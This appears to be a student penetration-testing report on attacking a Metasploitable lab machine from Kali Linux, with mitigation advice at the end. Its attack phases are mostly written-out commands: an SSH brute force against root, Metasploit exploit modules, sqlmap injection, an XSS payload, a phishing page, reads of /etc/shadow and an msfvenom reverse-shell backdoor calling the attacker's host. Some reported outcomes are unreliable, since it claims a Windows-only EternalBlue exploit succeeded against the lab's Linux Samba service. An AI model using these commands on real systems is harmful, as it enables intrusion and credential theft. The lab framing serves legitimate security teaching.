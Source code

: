 ## 1. Introduction

This project demonstrates the principles of network security and penetration testing using Kali Linux and Metasploitable. The primary objective is to identify and exploit vulnerabilities in Metasploitable’s network services, implement post-exploitation techniques, and propose mitigation strategies to secure such systems.

## 2. Phase 1: Reconnaissance - Gathering Initial Information

#### **Objective:**

Identify open ports, running services, and potential vulnerabilities on the Metasploitable machine.

#### **Tools Used:**

* **Nmap**: For network scanning and service detection.
* **Wireshark**: For network traffic analysis.
* **enum4linux**: For SMB enumeration.

#### **Steps:**

1. Perform an initial network scan to discover open ports:
   ```bash
   nmap -A [Metasploitable_IP]
   ```
2. Analyze the scan results:
   * Identify open ports (e.g., 21 for FTP, 22 for SSH, 445 for SMB, 80 for HTTP).
   * Document running services and their versions.
3. Save the scan results:
   ```bash
   nmap -A [Metasploitable_IP] -oN reconnaissance_results.txt
   ```
4. Use Wireshark to analyze network traffic:
   * Capture packets for further analysis.
   * Filter traffic to focus on target-specific data.
5. Use enum4linux to enumerate SMB services:
   ```bash
   enum4linux [Metasploitable_IP]
   ```

#### **Findings:**

* Open Ports: 21 (FTP), 22 (SSH), 445 (SMB), 80 (HTTP)
* Services Detected:
  * FTP (vsftpd 2.3.4)
  * SSH (OpenSSH 4.3)
  * SMB (Samba 3.0.20)
  * HTTP (Apache 2.2.8 with PHP 5.2.4)

## 3. Phase 2: Exploiting Vulnerabilities - Taking Advantage of Weaknesses

#### **Option 1: SSH Brute Force**

1. **Objective:** Gain access via SSH by cracking weak credentials.
2. **Tool Used:**
   * Hydra
3. **Command:**
   ```bash
   hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://[Metasploitable_IP]
   ```
4. **Outcome:**
   * Discovered the password: `123456`
   * Gained SSH access as the root user.

#### **Option 2: SMB Exploits**

1. **Objective:** Exploit vulnerabilities in the SMB protocol.
2. **Tool Used:**
   * Metasploit Framework
3. **Steps:**
   * Launch Metasploit:
     ```bash
     msfconsole
     ```
   * Use the EternalBlue exploit:
     ```bash
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS [Metasploitable_IP]
     exploit
     ```
4. **Outcome:**
   * Successfully exploited the SMB service and gained a reverse shell.

#### **Option 3: FTP Exploits**

1. **Objective:** Exploit vulnerabilities in the FTP service.
2. **Steps:**
   * Check for anonymous login:
     ```bash
     ftp [Metasploitable_IP]
     ```
   * Use Metasploit to exploit vsftpd backdoor:
     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOST [Metasploitable_IP]
     exploit
     ```
3. **Outcome:**
   * Obtained a reverse shell via the FTP backdoor.

#### **Option 4: HTTP Exploits**

1. **Objective:** Exploit vulnerabilities in the web application hosted on HTTP.
2. **Steps:**
   * **SQL Injection**:
     * Use sqlmap to identify and exploit SQL injection:
       ```bash
       sqlmap -u "http://[Metasploitable_IP]/vulnerable_page?param=value" --dbs
       ```
     * Extract database details.
   * **XSS Testing**:
     * Insert test scripts (e.g., `<script>alert('XSS');</script>`) in input fields.
3. **Outcome:**
   * Retrieved sensitive database information via SQL injection.
   * Demonstrated script execution for XSS.
4. **Phishing Attack**:
   * Host a phishing page on Apache:
     ```bash
     sudo service apache2 start
     sudo cp phishing_email.html /var/www/html/phishing.html
     ```
   * Generate a phishing link:
     ```bash
     echo "http://[Kali_IP]/phishing.html" | setoolkit
     ```
   * Analyze the victim’s behavior upon accessing the phishing link.

## 4. Phase 3: Post-Exploitation - Expanding Access and Persistence

#### **Objective:**

Explore the target system further, escalate privileges, and gather sensitive information.

#### **Techniques Used:**

1. **Shell Access:**
   * Managed active sessions in Metasploit:
     ```bash
     sessions -i [session_ID]
     ```
2. **Privilege Escalation:**
   * Checked for SUID binaries:
     ```bash
     find / -perm -4000 2>/dev/null
     ```
   * Exploited a misconfigured binary to gain root privileges.
3. **Data Gathering:**
   * Accessed sensitive files:
     ```bash
     cat /etc/passwd
     cat /etc/shadow
     ```
   * Extracted user credentials and configuration files.
4. **Maintaining Access:**
   * Created a persistent backdoor:
     ```bash
     msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f elf > backdoor.elf
     scp backdoor.elf root@[Metasploitable_IP]:/tmp
     chmod +x /tmp/backdoor.elf
     ```

## 5. Phase 4: Recommendations and Mitigation - Securing the System

#### **Vulnerabilities and Fixes:**

1. **SSH:**
   * Use strong passwords and key-based authentication.
   * Disable root login over SSH.
2. **SMB:**
   * Apply patches for known vulnerabilities like EternalBlue.
   * Disable unused SMB versions.
3. **FTP:**
   * Disable anonymous access.
   * Use secure alternatives like SFTP.
4. **HTTP:**
   * Sanitize input to prevent SQL injection and XSS.
   * Regularly update web server and application software.
5. **Phishing Attacks:**
   * Deploy anti-phishing tools.
   * Conduct regular security awareness training.

#### **General Recommendations:**

* Use firewalls to restrict access to unnecessary services.
* Regularly update and patch systems.
* Conduct periodic vulnerability assessments.

## 6. Conclusion - Lessons Learned and Future Considerations

This project provided hands-on experience in identifying and exploiting network vulnerabilities, post-exploitation techniques, and designing mitigation strategies. The knowledge gained highlights the importance of securing systems against common threats and the value of ethical penetration testing in enhancing cybersecurity defenses.
